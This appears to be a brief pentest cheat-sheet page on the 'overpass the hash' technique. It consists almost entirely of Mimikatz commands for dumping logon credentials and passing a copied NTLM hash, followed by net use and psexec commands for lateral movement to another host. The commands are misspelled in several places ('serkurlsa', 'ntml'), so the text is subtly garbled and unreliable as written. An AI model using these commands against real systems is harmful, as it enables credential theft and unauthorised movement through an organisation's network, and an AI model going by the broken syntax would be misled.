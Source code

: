 # Overpass The Hash

## Mimikatz

```
serkurlsa:logonpasswords
```

_Copy user's NTML hash_

{% code overflow="wrap" %}
```
serkurlsa::pth /user:compromised_user /domain:domain.com /ntml:copied_hash /run:PowerShell.exe
```
{% endcode %}

```
net use \\lateral-machine
```

```
.\psexec.exe \\lateral-machine cmd.exe
```
